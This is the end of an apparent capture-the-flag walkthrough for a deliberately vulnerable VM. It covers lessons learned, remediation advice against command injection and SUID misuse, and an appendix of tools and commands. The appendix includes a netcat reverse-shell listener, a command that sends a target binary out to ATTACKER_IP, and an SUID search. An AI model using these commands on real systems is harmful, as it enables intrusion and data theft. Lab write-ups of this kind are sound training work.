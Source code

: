 **Ethics note:** This VM is intentionally vulnerable. Never run these techniques against systems you do not own or have permission to test.

---

# SECTION 7 — LESSONS LEARNED & REMEDIATION
**High level takeaways:**
- Certificates and SANs can reveal hostnames; always inspect TLS certs during recon.
- Never leave developer notes, testdata or keys in publicly accessible paths.
- Avoid implementing functionality that executes user-supplied commands directly; use proper validation, sanitization, and safe execution strategies (no shell invocation with raw user data).
- SUID scripts that change critical system state must be strictly controlled and audited. Avoid hard-coded secrets and enforce least privilege.
- Monitor and restrict availability of tools like `netcat` on production hosts; consider input sanitization and proper logging.

**Remediation checklist:**
- Remove test files and developer notes from production.
- Use parameterized operations and deny any direct shell execution from web inputs.
- Harden filesystem permissions; remove or audit SUID binaries.
- Use WAF rules or input validation to block command injection patterns.
- Rotate credentials and avoid predictable hard-coded passwords.

---

# SECTION 8 — APPENDIX: TOOLS, COMMANDS

## Tools used
- `nmap`, `arp-scan`
- `curl`, `openssl`
- `ffuf` / `dirsearch` / `dirb`
- `netcat` (`nc`)
- `Python 3`
- `ltrace`, `strings`, `file`

## Useful commands
```bash

# Find hosts:
sudo arp-scan -l
# Ping-sweep:
sudo nmap -sn 192.168.1.0/24
# Service scan:
nmap -sC -sV -A 192.168.1.106 -oN scans/nmap_full.txt
# Read cert SANs:
echo | openssl s_client -connect 192.168.1.106:443 2>/dev/null | openssl x509 -noout -text | sed -n '/Subject Alternative Name/,$p'
# Host header test:
curl -I -H "Host: earth.local" http://192.168.1.106/
# Reverse shell listener:
nc -lnvp 53666
# Transfer file (attacker listener):
nc -lnvp 4444 > reset_root
# (on target) nc ATTACKER_IP 4444 < /usr/bin/reset_root
# Find SUID:
find / -perm -u=s -type f 2>/dev/null
```
